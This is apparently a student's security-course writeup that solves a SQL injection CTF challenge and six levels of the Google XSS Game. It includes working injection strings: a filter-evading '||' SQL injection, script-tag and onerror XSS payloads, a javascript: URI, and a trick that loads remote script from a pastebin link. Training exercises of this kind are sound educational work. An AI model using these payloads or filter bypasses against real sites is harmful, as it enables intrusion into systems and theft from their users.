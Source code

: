 # Crypto II Writeup

Name: Lawrence Byun
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Lawrence Byun

## Assignment Writeup

### Part 1 (40 Pts)
When going to all the links I noticed the URL gave something like SQL. When I tried ```http://1337bank.money:5000/item?id=2' or '1'='1 ``` I got the message ``` ERROR: ATTEMPTED SQL INJECTION DETECTED ``` 
After some Googling I found that you could use ```||``` instead of ```OR```. So I tried  ``` http://1337bank.money:5000/item?id=2' || '1'='1 ``` and got the flag 

CMSC389R-{y0u_ar3_th3_SQ1_ninj@}


### Part 2 (60 Pts)


Level 1: 
They gave an vulnerable input field. I entered ``` <script> alert("Hello") </script> ```

Level 2: 
Googled ```html onerror``` attribute. Entered ```<img src = "nothing.jpg" onerror = alert("Hello")>``` into the message box and posted. Cannot load the img so it executes the javascript.

Level 3: 
Looked at the source code. Broke the quotes in the <img> tag so it would read ```<img src='/static/level3/cloud3'.jpg' />``` instead of ```<img src='/static/level3/cloud3.jpg' />``` like they wanted. Used the onerror attribute from the previous to make the <img> tag execute javascript. 
Entered ```' onerror = 'alert("Heelo")'``` into the URL.  ```https://xss-game.appspot.com/level3/frame#3' onerror = 'alert("Heelo")'```	

Level 4: 
Look at the hints. Saw that the startTimer function was being called from <img> tag. Tried to casue an error in the <img> tag so it would execute onerror

```'); onerror = alert('hello```

Level 5: 
On signup page ```https://xss-game.appspot.com/level5/frame/signup?next=confirm``` next is set to confirm. 
In signup.html next is used in the <a href>. You can execute Javascript in <a href> by using <a href="javascript:alert('Hello');">.

Go to the URL ```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Hello')``` and click next

Level 6: 
Hosted my code on pastepin. https://pastebin.com/raw/6W7W8kQJ
Tried loading a file. Got the error saying I cannot load URL containing "https". So I tired "HTTPS". 
```https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/6W7W8kQJ```